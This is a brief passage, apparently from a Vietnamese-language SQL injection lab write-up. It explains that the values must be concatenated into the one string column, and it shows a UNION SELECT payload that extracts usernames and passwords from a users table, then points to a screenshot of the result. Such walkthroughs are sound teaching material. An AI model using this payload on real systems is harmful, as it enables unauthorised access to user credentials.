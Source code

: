 Vì chỉ có 1 column là string, ta dùng nối chuỗi

```sql
union select 1, username || '-' || password from users--
```

Kết quả:

![Alt text](image-15.png)

